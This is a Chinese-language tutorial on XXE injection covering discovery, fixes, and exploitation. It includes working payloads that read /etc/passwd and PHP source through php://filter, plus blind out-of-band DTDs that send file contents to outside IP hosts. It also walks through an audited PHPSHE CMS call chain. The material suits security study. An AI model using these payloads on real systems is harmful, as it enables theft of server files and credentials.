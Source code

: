 
---

➢ XML&XXE-传输-原理&探针&利用&玩法

➢ XML&XXE-黑盒-JS&黑盒测试&类型修改

➢ XML&XXE-白盒-CMS&PHPSHE&无回显

一、详细点：

XML被设计为传输和存储数据，XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素，其焦点是数据的内容，其把数据从HTML分离，是独立于软件和硬件的信息传输工具。等同于JSON传输。XXE漏洞XML External Entity Injection，即xml外部实体注入漏洞，XXE漏洞发生在应用程序解析XML输入时，没禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网扫描、攻击内网等危害。

-XML 与 HTML 的主要差异：

XML 被设计为传输和存储数据，其焦点是数据的内容。

HTML 被设计用来显示数据，其焦点是数据的外观。

HTML 旨在显示信息 ，而XML旨在传输存储信息。

Example：网站的xml文件解析

（1）-XXE黑盒发现：

```
1、获取得到Content-Type或数据类型为xml时，尝试xml语言payload进行测试

2、不管获取的Content-Type类型或数据传输类型，均可尝试修改后提交测试xxe

3、XXE不仅在数据传输上可能存在漏洞，同样在文件上传引用插件解析或预览也会造成文件中的XXE Payload被执行
```

（2）-XXE白盒发现：

```
1、可通过应用功能追踪代码定位审计

2、可通过脚本特定函数搜索定位审计

3、可通过伪协议玩法绕过相关修复等
```

二、XXE修复防御方案：

（1）-方案1-禁用外部实体

```php
PHP:
libxml_disable_entity_loader(true);
```

```java
JAVA:
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();dbf.setExpandEntityReferences(false);
```

```python
Python：
from lxml import etreexmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```

（2）-方案2-过滤用户提交的XML数据

过滤关键词：
```
<!DOCTYPE和<!ENTITY，或者SYSTEM和PUBLIC
```


三、利用
-XML&XXE-传输-原理&探针&利用&玩法

1、读取文件：

```xml
<?xml version="1.0"?>

<!DOCTYPE xiaodi [

<!ENTITY test SYSTEM "file:///d:/1.txt">

]>

<user><username>&test;</username><password>xiaodi</password></user>

```
读取php文件 
```
php://filter/read=convert.base64-encode/resource=msg.php
```

1.1、带外测试：

```xml
<?xml version="1.0" ?>

<!DOCTYPE test [

<!ENTITY % file SYSTEM "http://9v57ll.dnslog.cn">

%file;

]>

<user><username>&send;</username><password>xiaodi</password></user>
```

2、外部引用实体dtd：

```xml
<?xml version="1.0" ?>

<!DOCTYPE test [

<!ENTITY % file SYSTEM "http://127.0.0.1:8081/xiaodi.dtd">

%file;

]>

<user><username>&send;</username><password>xiaodi</password></user>
```

xiaodi.dtd
```dtd

<!ENTITY send SYSTEM "file:///d:/1.txt">
```

3、无回显读文件

```dtd
<?xml version="1.0" encoding="UTF-8"?>
1、
<!DOCTYPE updateProfile [
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=doLogin.php">
    <!ENTITY % dtd SYSTEM "http://124.71.115.19/hzh.dtd">
    %dtd;
    %send;
]>



2、
<!DOCTYPE hacker[
    <!ENTITY  % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">

    <!ENTITY  % myurl SYSTEM "http://124.71.115.19/hzh.dtd">
    %myurl;
]> 

```
test.dtd
接收可以写一个php接收，也可以用nc监听

接收的base64带有空格，需要去掉在进行解码
```dtd
1、
<!ENTITY % all
    "<!ENTITY &#x25; send SYSTEM 'http://124.71.115.19/get.php?file=%file;'>"
>
%all;


2、
<!ENTITY % dtd "<!ENTITY &#x25; vps SYSTEM 'http://124.71.115.19/get.php?file=%file;'> ">
<!-- &#x25; 就是百分号（&#x25; vps=% vps），因为是嵌套在里面的引用，不能直接写百分号 -->
<!-- 如果选择nc监听的话，端口一定要加！！！ -->
<!-- 如果选择看日志的话，端口一定不能加！！！ -->

<!-- 引用（执行）dtd实体，vps被注册 -->
%dtd;
<!-- 引用（执行）vps实体，接收%file变量的内容 -->
%vps;

```



4、其他玩法（协议）-见参考地址

https://www.cnblogs.com/20175211lyz/p/11413335.html

#XML&XXE-黑盒-JS&黑盒测试&类型修改#http://web.jarvisoj.com:9882/

XXE黑盒发现：

1、获取Content-Type或数据类型为xml时，尝试进行xml语言payload进行测试

2、不管获取的Content-Type类型或数据传输类型，均可尝试修改后提交测试xxe

流程：功能分析-前端提交-源码&抓包-构造Paylod测试

更改请求数据格式：Content-Type

```xml
<?xml version = "1.0"?>

<!DOCTYPE ANY [

<!ENTITY f SYSTEM "file:///etc/passwd">

]>

<x>&f;</x>
```

#XML&XXE-白盒-CMS&PHPSHE&无回显

审计流程：

1、漏洞函数simplexml_load_string

2、pe_getxml函数调用了漏洞函数

3、wechat_getxml调用了pe_getxml

4、notify_url调用了wechat_getxml

访问notify_url文件触发wechat_getxml函数,构造Paylod测试

先尝试读取文件，无回显后带外测试：

```xml
<?xml version="1.0" ?>

<!DOCTYPE test [

<!ENTITY % file SYSTEM "http://1uwlwv.dnslog.cn">

%file;

]>

<root>&send;</root>
```

然后带外传递数据解决无回显：

```xml
<?xml version="1.0"?>

<!DOCTYPE ANY[

<!ENTITY % file SYSTEM "file:///d:/1.txt">

<!ENTITY % remote SYSTEM "http://47.94.236.117/test.dtd">

%remote;

%all;

]>

<root>&send;</root>

test.dtd：

<!ENTITY % all "<!ENTITY send SYSTEM 'http://47.94.236.117/get.php?file=%file;'>">
```